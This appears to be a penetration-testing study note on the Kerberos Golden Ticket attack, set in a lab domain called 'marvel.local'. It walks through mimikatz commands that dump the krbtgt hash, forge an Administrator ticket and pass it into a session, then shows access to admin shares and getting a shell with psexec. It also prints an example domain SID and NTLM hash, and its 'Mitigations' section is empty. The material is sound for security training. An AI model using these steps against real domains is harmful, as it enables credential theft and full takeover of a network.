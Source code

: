 
### What is a Golden Ticket?

**krbtgt** Account - Kerebos Ticket Granting Ticket Account, allows us to **generate tickets**

If we have the hash for it, **WE CAN GENERATE TICKETS**!

With this, we **request access** to any **Resource** or **System on the Domain!** using the **Ticket Granting Service**

### Exploit

	mimikatz.exe
	
	privilege::debug
	
	lsadump::lsa /inject /name:krbtgt
	
Whoa that's a lot of Information! **What do we actually need?**

- **SID** of the **Domain**

		S-1-5-21-301214212-3920777931-1277971883

- **NTLM Hash**

	 	11f843aafd22acfb29aef92f6e423994

Now, moving further 

Syntax:

	kerberos::golden /User:Whatever /domain:{domain_name} /sid:{SID} /krbtgt:{NTLM_hash} /id:500 /ptt
	
	/id:500 	500 is the ID of Admin Account
	/ptt 		Pass the Ticket

We are going to **generate a Golden Ticket** here and then we are going to use **Pass the Ticket** and **pass it along** to the **Next Session**, so we are going to utilize that ticket to open up a **Command Prompt** which has access to any Computer on the Domain! 

So in our case:

	kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-301214212-3920777931-1277971883 /krbtgt:11f843aafd22acfb29aef92f6e423994 /id:500 /ptt

After getting it done successfully, 

	misc::cmd
	
A Command Prompt opens up!

	dir \\COMPUTERNAME\c$

How to get a shell?

	psexec.exe \\COMPUTERNAME cmd.exe


<br>

### Mitigations
